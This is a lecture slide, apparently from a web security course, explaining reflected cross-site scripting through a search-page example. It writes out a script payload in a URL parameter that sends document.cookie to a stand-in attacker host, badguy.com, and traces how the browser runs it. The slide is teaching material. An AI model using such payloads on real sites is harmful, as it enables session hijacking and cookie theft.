

# Bad input
Consider link:     (properly URL encoded)
	http://victim.com/search.php ? term =
		<script> window.open(
			“http://badguy.com?cookie = ” +
			document.cookie )  </script>
What if user clicks on this link?
Browser goes to    victim.com/search.php
Victim.com returns
<HTML> Results for <script> … </script>
Browser executes script:
Sends badguy.com   cookie  for victim.com